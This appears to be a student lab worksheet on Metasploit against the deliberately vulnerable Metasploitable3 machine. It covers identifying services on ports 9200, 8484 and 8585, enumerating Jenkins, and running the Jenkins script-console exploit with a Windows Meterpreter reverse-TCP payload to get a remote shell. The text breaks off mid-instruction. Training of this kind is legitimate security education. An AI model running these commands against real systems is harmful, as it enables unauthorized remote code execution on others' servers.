 `set RPORT 9200`

`run`

What was the result?

What things use port 9200? Elastic search 

`set RPORT 8484`

`run`

What was the result?

What things use port 8484? Jenkins

`set RPORT 8585`

`run`

What was the result?

What things use port 8585? WAMP is Windows, Apache, MySQL, and PHP

### Probe system for Jenkin information

`use auxiliary/scanner/http/jenkins_enum`

`set RPORT 8484`

`set TARGETURI /`

`run`

### Exploit Jenkins on Metasploitable3

This is the command you use to set the host you are going to run the exploit against once you locate it on your network

`set rhosts xxx.xx.xxx.xxx`

`use exploit/multi/http/jenkins_script_console`

`set RPORT 8484`

`set TARGETURI /`

`set RHOST xxx.xxx.xxxx.xxx` (This is the IP of your target)

`set PAYLOAD windows/meterpreter/reverse_tcp'

Starts the exploit against the system you specified with the set rhost command.

`exploit`

If your exploit is successful you should get a meterpreter prompt where you can run remote commands on the Windows host. If you type in the following command it will tell you which level of context your account is running as

`getuid`

If you cannot gain elevated priviliges using the Jenkins backdoor then try this exploit
